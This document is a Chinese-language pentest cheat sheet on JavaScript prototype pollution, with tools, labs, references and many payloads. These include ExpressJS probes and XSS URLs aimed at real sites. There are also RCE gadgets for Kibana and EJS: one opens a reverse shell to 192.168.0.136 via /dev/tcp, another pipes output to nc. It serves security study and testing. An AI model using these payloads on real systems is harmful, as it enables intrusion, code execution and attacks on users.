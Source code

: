 # 原型污染

> 原型污染是一种在JavaScript中发生的漏洞类型，当修改了Object.prototype的属性时就会发生。这种风险特别高，因为JavaScript对象是动态的，我们可以在任何时候向它们添加属性。此外，由于几乎所有的JavaScript对象都继承自Object.prototype，这就构成了一个潜在的攻击向量。

## 摘要

* [工具](#工具)
* [实验室](#实验室)
* [利用](#利用)
  * [示例](#示例)
  * [手动测试](#手动测试)
  * [通过JSON输入的原型污染](#通过JSON输入的原型污染)
  * [URL中的原型污染](#URL中的原型污染)
  * [原型污染有效载荷](#原型污染有效载荷)
  * [原型污染gadgets](#原型污染gadgets)
* [参考资料](#参考资料)

## 工具

* [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - 帮助你找到用于原型污染利用的gadgets
* [yuske/silent-spring](https://github.com/yuske/silent-spring) - Node.js中原型污染导致远程代码执行
* [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) - Node.js核心代码和第三方NPM包中的服务器端原型污染gadgets
* [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution) - 原型污染和有用的脚本gadgets
* [portswigger/server-side-prototype-pollution](https://github.com/portswigger/server-side-prototype-pollution) - Burp Suite扩展检测原型污染漏洞
* [msrkp/PPScan](https://github.com/msrkp/PPScan)

## 实验室

* [YesWeHack Dojo - 原型污染](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
* [PortSwigger - 原型污染](https://portswigger.net/web-security/all-labs#prototype-pollution)

## 利用

在JavaScript中，原型允许对象从其他对象继承特性。如果攻击者能够添加或修改`Object.prototype`的属性，他们本质上可以影响所有继承自该原型的对象，可能导致各种安全风险。

```js
var myDog = new Dog();

// 指向函数 "Dog"
myDog.constructor;

// 指向 "Dog" 类定义
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];
```

### 示例

* 假设一个应用程序使用一个对象来维护配置设置，如下所示：

  ```js
  let config = {
      isAdmin: false
  };
  ```

* 攻击者可能能够向`Object.prototype`添加一个`isAdmin`属性，如下所示：

  ```js
  Object.prototype.isAdmin = true;
  ```

### 手动测试

* ExpressJS: `{ "__proto__":{"parameterLimit":1}}` + GET请求中至少反射1个参数的2个参数。
* ExpressJS: `{ "__proto__":{"ignoreQueryPrefix":true}}` + `??foo=bar`
* ExpressJS: `{ "__proto__":{"allowDots":true}}` + `?foo.bar=baz`
* 更改JSON响应的填充：`{ "__proto__":{"json spaces":" "}}` + `{"foo":"bar"}`，服务器应返回 `{"foo": "bar"}`
* 修改CORS头响应：`{ "__proto__":{"exposedHeaders":["foo"]}}`，服务器应返回`Access-Control-Expose-Headers`头。
* 更改状态码：`{ "__proto__":{"status":510}}`

### 通过JSON输入的原型污染

你可以通过魔法属性`__proto__`访问任何对象的原型。
JavaScript中的`JSON.parse()`函数用于解析JSON字符串并将其转换为JavaScript对象。通常它是一个汇聚点函数，可能会发生原型污染。

```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```

异步有效载荷用于NodeJS

```js
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=payload\"\".oastify\"\".com"
  }
}
```

### URL中的原型污染

在野外发现的URL原型污染有效载荷示例。

```ps1
https://victim.com/#a=b&__proto__[admin]=1
https://example.com/#__proto__[xxx]=alert(1)
http://server/servicedesk/customer/user/signup?__proto__.preventDefault.__proto__.handleObj.__proto__.delegateTarget=%3Cimg/src/onerror=alert(1)%3E
https://www.apple.com/shop/buy-watch/apple-watch?__proto__[src]=image&__proto__[onerror]=alert(1)
https://www.apple.com/shop/buy-watch/apple-watch?a[constructor][prototype]=image&a[constructor][prototype][onerror]=alert(1)
```

### 原型污染利用

根据原型污染是在客户端（CSPP）还是服务器端（SSPP）执行，影响将有所不同。

* 远程命令执行：[Kibana中的RCE (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

  ```js
  .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
  .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
  ```

* 远程命令执行：[使用EJSgadgets的RCE](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)

  ```js
  {
      "__proto__": {
          "client": 1,
          "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
      }
  }
  ```

* 反射型XSS：[通过Wistia嵌入代码在www.hackerone.com上的反射型XSS - #986386](https://hackerone.com/reports/986386)

* 客户端绕过：[原型污染 - 并绕过客户端HTML消毒器](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

* 服务拒绝

### 原型污染有效载荷

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
{"__proto__.name":"test"}
x[__proto__][abaeead] = abaeead
x.__proto__.edcbcab = edcbcab
__proto__[eedffcb] = eedffcb
__proto__.baaebfc = baaebfc
?__proto__[test]=test
```

### 原型污染gadgets

在漏洞的上下文中，“gadgets”通常指的是在攻击过程中可以被利用或使用的代码片段或功能。当我们谈论“原型污染gadgets”时，我们指的是应用程序的一个特定代码路径、函数或特性，它容易受到或可以通过原型污染攻击被利用。

要么使用[yeswehack/pp-finder](https://github.com/yeswehack/pp-finder)的部分源代码创建自己的gadgets，要么尝试使用已经发现的gadgets[yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) / [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)。


## 参考链接

- [渗透测试人员指南：原型污染攻击 - HARSH BOTHRA - 2023年1月2日](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
- [创造一个无污染的互联网故事 - 在野外利用客户端原型污染 - s1r1us](https://blog.s1r1us.ninja/research/PP)
- [检测服务器端原型污染 - Daniel Thatcher - 2023年2月15日](https://www.intruder.io/research/server-side-prototype-pollution)
- [利用原型污染 - Kibana中的RCE（CVE-2019-7609） - MICHAŁ BENTKOWSKI - 2019年10月30日](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
- [NodeJS - __proto__ & prototype污染 - HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
- [原型污染 - PortSwigger](https://portswigger.net/web-security/prototype-pollution)
- [原型污染 - Snyk](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
- [原型污染和绕过客户端HTML消毒器 - MICHAŁ BENTKOWSKI - 2020年8月18日](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
- [原型污染及其发现地点 - BitK & SakiiR - 2023年8月14日](https://youtu.be/mwpH9DF_RDA)
- [NodeJS中的原型污染攻击 - Olivier Arteau](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf)
- [NodeJS应用程序中的原型污染攻击 - Olivier Arteau - Youtube](https://youtu.be/LUsiFV3dsK8)
- [原型污染导致RCE：到处都是小工具 - Mikhail Shcherbakov](https://youtu.be/v5dq80S1WF4)
- [服务器端原型污染：如何检测和利用 - YesWeHack](https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
- [服务器端原型污染：无需DoS的黑箱检测 - Gareth Heyes - 2023年2月15日](https://portswigger.net/research/server-side-prototype-pollution)
- [主题演讲 | 服务器端原型污染：无需DoS的黑箱检测 - Gareth Heyes](https://youtu.be/LD-KcuKM_0M)
